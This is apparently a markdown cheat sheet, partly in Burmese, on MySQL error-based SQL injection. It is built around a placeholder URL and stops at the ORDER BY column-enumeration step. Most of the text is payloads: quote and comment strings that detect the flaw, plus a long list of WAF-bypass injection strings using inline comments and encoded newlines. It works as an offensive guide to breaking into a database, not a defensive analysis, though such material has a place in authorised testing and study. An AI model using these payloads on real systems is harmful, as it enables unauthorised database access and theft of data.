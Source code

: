 # MySQL Error based SQL Injection Cheatsheet

This is probably the easiest vulnerability along the SQL Injection attack. An attacker can enumerate and dump the MySQL database by using the SQL error messages to his advantage.

## Detecting the vulnerability

<code>https://site.com/index.php?id=1</code>
Website load successfully.

အဲ့တာကိုကျွန်တော်တို့ အနောက်ကနေ ' လေးထည့်ပေးလိုက်ရင် အောက်ကပုံစံမျိုး error message ကျလာမှာဖြစ်ပါတယ်။
<code>https://site.com/index.php?id=1'</code>
Error message show up: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...</code>

<code>https://site.com/index.php?id=1\'</code>
Error message show up: <code>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near...</code>

<code>https://site.com/index.php?id=1 and 0' order by 1--+</code>
ဒီလိုထည့်လိုက်ရင်တော့ website ကပုံမှန်အတိုင်း ပြန်ပြီးအလုပ်လုပ်သွားမှာဖြစ်ပါတယ်။

<code>https://site.com/index.php?id=2-1</code>
Website loads successfully.

<code>https://site.com/index.php?id=-1'</code>
Error message shows up again

<code>https://site.com/index.php?id=-1)'</code>
Error message shows up again

<code>https://site.com/index.php?id=1'-- -</code>
Website might loads successfuly, but it might shows error also

<code>https://site.com/index.php?id=1'--</code>
Website might loads successfuly, but it might shows error also

<code>https://site.com/index.php?id=1+--+</code>
Website might loads successfuly, but it might shows error also

# Bypassing WAF to detect the vulnerability (if the first methodology didn't work)
In some cases, WAF won't let you to cause errors on the website, so sending special queries might be needed to bypass WAF.

<code>https://site.com/index.php?id=1'--/**/-</code>
If no WAF Warning is shown and website loads up, we confirm the vulnerability, else try the following payloads.

<code>https://site.com/index.php?id=/^.*1'--+-.*$/</code>
<code>https://site.com/index.php?id=/*!500001'--+-*/</code>
<code>https://site.com/index.php?id=1'--/**/-</code>
<code>https://site.com/index.php?id=1'--/*--*/-</code>
<code>https://site.com/index.php?id=1'--/*&a=*/-</code>
<code>https://site.com/index.php?id=1'--/*1337*/-</code>
<code>https://site.com/index.php?id=1'--/**_**/-</code>
<code>https://site.com/index.php?id=1'--%0A-</code>
<code>https://site.com/index.php?id=1'--%0b-</code>
<code>https://site.com/index.php?id=1'--%0d%0A-</code>
<code>https://site.com/index.php?id=1'--%23%0A-</code>
<code>https://site.com/index.php?id=1'--%23foo%0D%0A-</code>
<code>https://site.com/index.php?id=1'--%23foo*%2F*bar%0D%0A-</code>
<code>https://site.com/index.php?id=1'--#qa%0A#%0A-</code>
<code>https://site.com/index.php?id=/*!20000%0d%0a1'--+-*/</code>
<code>https://site.com/index.php?id=/*!blobblobblob%0d%0a1'--+-*/</code>

## Find the number of columns using 'ORDER BY' query
Now that we performed an SQL syntax error to the website, we can begin fuzzing and finding how many columns do we have by using ORDER BY

<code>https://site.com/index.php?id=1' order by 1-- -</code>
This query musn't shows up error, since there is no lower number than 1

